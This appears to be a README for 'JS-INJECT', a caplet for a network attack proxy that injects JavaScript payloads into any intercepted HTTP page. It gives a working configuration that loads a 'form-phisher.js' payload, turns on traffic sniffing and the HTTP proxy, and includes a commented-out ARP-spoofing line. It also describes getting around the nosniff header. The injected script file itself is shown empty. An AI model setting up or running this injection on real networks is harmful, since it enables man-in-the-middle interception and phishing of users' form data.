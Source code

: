### JS-INJECT

A simple yet powerful proxy module that lets you inject your JavaScript payloads into any HTTP web page/application.

It prevents re-initiation of your script when it's already active in the DOM by declaring your payload as a unique function variable, and it ignores the `X-Content-Type-Options: nosniff` header by checking for both file extensions and `Content-Type` headers.

All you have to do is set your payload path in the caplet file.

**caplets/jsinject/jsinject.cap**

```sh
# Set the path to your JavaScript payload
set jsinject.payload caplets/jsinject/payloads/form-phisher.js

set http.proxy.script caplets/jsinject/jsinject.js
set net.sniff.verbose false
net.sniff on
http.proxy on
#arp.spoof on
```

**caplets/jsinject/jsinject.js**

```javascript
```
